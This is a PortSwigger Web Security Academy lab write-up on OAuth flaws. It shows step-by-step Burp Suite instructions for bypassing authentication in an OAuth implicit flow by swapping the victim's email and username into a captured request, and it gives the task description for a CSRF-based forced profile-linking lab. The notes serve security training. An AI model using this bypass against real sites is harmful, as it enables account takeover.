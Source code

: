 # Portswigger
## OAuth Authentication
### Authentication bypass via OAuth implicit flow
```bash

# This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password.

# To solve the lab, log in to Carlos's account. His email address is carlos@carlos-montoya.net.

# You can log in with your own social media account using the following credentials: wiener:peter. 

Click "My account"
Input uname/pword

wiener:peter

Go to: HTTP history
Find:

POST /authenticate HTTP/1.1

{"email":"wiener@hotdog.com",
"username":"wiener",
"token":"vO4Gm4EKyVkOYb9lmh-cVnQUFxEQwOxKFVap38g5V-8"}

Logout
Intercept is on
Click "My account"
Change:

POST /authenticate HTTP/1.1

{"email":"carlos@carlos-montoya.net",
"username":"carlos",
"token":"vO4Gm4EKyVkOYb9lmh-cVnQUFxEQwOxKFVap38g5V-8"}

Send

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220610223837.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220610224036.png)

### Forced OAuth profile linking
```bash

#  This lab gives you the option to attach a social media profile to your account so that you can log in via OAuth instead of using the normal username and password. Due to the insecure implementation of the OAuth flow by the client application, an attacker can manipulate this functionality to obtain access to other users' accounts.

# To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete Carlos.

# The admin user will open anything you send from the exploit server and they always have an active session on the blog website.

```